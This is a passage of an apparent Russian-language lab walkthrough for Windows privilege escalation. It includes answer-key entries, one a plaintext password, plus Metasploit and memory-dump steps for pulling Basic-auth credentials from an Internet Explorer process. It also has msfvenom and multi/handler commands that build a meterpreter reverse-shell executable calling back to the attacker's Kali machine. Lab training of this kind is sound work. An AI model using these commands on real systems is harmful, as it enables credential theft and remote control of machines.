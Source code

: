 ### Ответьте на вопросы ниже
Какой пароль в открытом виде содержится в файле Unattend.xml?
```commandline
password123
```

## Задание 13
Эксплуатация

Кали ВМ

1. Откройте командную строку и введите: msfconsole
2. В Metasploit (msf > prompt) введите: use auxiliary/server/capture/http_basic
3. В Metasploit (msf > prompt) введите: set uripath x
4. В Metasploit (msf > prompt) введите: run

ВМ Windows

1. Откройте Internet Explorer и перейдите по адресу: http://[ IP-адрес виртуальной машины Kali ]/x 2.
Откройте командную строку и введите: taskmgr
3. В диспетчере задач Windows щелкните правой кнопкой мыши «iexplore.exe» в столбце «Имя образа» и выберите «Создать файл дампа» во всплывающем меню.
4. Скопируйте созданный файл iexplore.DMP в виртуальную машину Kali.

Кали ВМ

1. Поместите «iexplore.DMP» на рабочий стол.
2. Откройте командную строку и введите:  strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"
3. Выберите Копировать строку в кодировке Base64.
4. В командной строке введите: echo -ne [Base64 String] | base64 -d
5. Обратите внимание на учетные данные в выводе.

### Ответьте на вопросы ниже
Нажмите «Завершено», как только вы успешно найдете все пароли.
```commandline
Ответ не нужен
```

## Задание 14
Установить оболочку

Кали ВМ

1. Откройте командную строку и введите:  `msfconsole`
2. В Metasploit (msf > prompt) введите:  `use multi/handler`
3. В Metasploit (msf > prompt) введите:  `set payload windows/meterpreter/reverse_tcp`
4. В Metasploit (msf > prompt) введите:  `set lhost [ IP-адрес виртуальной машины Kali ]`
5. В Metasploit (msf > prompt) введите:  `run`
6. Откройте дополнительную командную строку и введите:  `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[ IP-адрес виртуальной машины Kali ] -f exe > shell.exe`
7. Скопируйте сгенерированный файл shell.exe на виртуальную машину Windows .
